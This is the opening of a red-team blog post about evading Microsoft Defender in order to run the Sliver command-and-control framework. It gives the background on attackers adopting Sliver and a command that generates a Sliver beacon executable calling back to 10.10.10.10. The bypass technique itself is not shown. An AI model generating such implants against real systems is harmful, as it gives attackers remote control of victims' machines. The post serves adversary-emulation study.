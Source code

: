 ```yaml
---
title: "Bypassing Defender to run Sliver"
layout: "post"
categories: "Windows"
tags: ["Red Team"]
---
```


Hey all, back with another blog, this time focusing more on red team concepts. I want to highlight that the code/concepts covered in this blog are for educational purposes and not to be used in a malicious manner.

Recently, I have been delving into adversary emulation and noticed an increasing number of blogs suggesting that adversaries are shifting away from well-known tools like Cobalt Strike to less recognized C2s such as Sliver. This shift is partly due to the growing number of flagged signatures for Cobalt Strike and Metasploit. Microsoft researchers have also released a blog documenting how nation-state threat actors have transitioned to Sliver, as detailed here: [https://www.microsoft.com/en-us/security/blog/2022/08/24/looking-for-the-sliver-lining-hunting-for-emerging-command-and-control-frameworks/](https://www.microsoft.com/en-us/security/blog/2022/08/24/looking-for-the-sliver-lining-hunting-for-emerging-command-and-control-frameworks/).

Given all the new attention, I wanted to investigate if the signatures have been flagged. To test this, we will generate a Sliver executable and transfer it to the Windows machine.\

```bash
/opt/sliver/sliver-server_linux

generate beacon -f exe -m 10.10.10.10
```

![](/assets/posts/2023-12-10-bypassing-defender-to-run-sliver/generate_sliver.bmp)
